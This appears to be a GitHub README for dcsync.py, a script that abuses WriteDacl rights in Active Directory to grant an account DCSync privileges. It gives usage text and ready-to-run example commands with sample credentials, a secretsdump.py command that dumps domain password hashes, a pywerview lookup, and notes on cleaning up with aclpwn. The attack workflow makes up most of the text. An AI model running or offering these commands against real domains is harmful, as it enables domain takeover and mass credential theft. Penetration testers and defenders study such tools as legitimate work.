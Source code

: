 # Adding DCSync Permissions
Mostly copypasta from https://github.com/tothi/rbcd-attack
```
usage: dcsync.py [-h] -dc FQDN -t USERNAME [-hashes LMHASH:NTHASH] [-k] identity

WriteDacl Attack: To abuse WriteDacl to a domain object, you may grant yourself the DcSync privileges.

positional arguments:
  identity              domain\username:password, attacker account with write access to target computer properties (NetBIOS domain name must be used!)

optional arguments:
  -h, --help            show this help message and exit
  -dc FQDN              FQDN of the Domain Controller
  -t USERNAME           Target user to be escalated in format *Distinguished Names*
  -hashes LMHASH:NTHASH
                        Hash for LDAP auth (instead of password)
  -k                    If you want to use a Kerberos ticket

Example: 
  ./dcsync.py -dc dc01.n00py.local -t 'CN=n00py,OU=Employees,DC=n00py,DC=local'  n00py\Administrator:Password123
  ./dcsync.py -dc dc01.n00py.local -t 'CN=n00py,OU=Employees,DC=n00py,DC=local'  n00py\Administrator -k
  
  ./dcsync.py -dc dc01.n00py.local -t 'CN=spoNge369,CN=Users,DC=n00py,DC=local' 'n00py.local\user_with_writeDACL:P@$$w0rd123'
  
   DCSync Attack (:
      secretsdump.py 'n00py.local/spoNge369:passw0rd123!@dc01.n00py.local'

   Search Distinguished Names(DN) of spoNge369:
      pywerview get-netuser -u'any_valid_user' -p'password321$' -t dc01.n00py.local | perl -wnlE'print if/distinguishedname.+spoNge369/'
  
```

To clean up after you are done, use ACLpwn https://github.com/fox-it/aclpwn.py. This tool is pretty old and not maintained, but you can get it to work. One thing you will need to do is replace “neo4j.v1” with just “neo4j” in database.py. To restore the ACLs to the original configuration, use the restore state file created by the DCSync tool.




## Dependencies:

Impacket 

For kerberos:
```
apt install heimdal-dev -y
apt install libkrb5-dev -y
python3 -m pip install gssapi pywerview
```
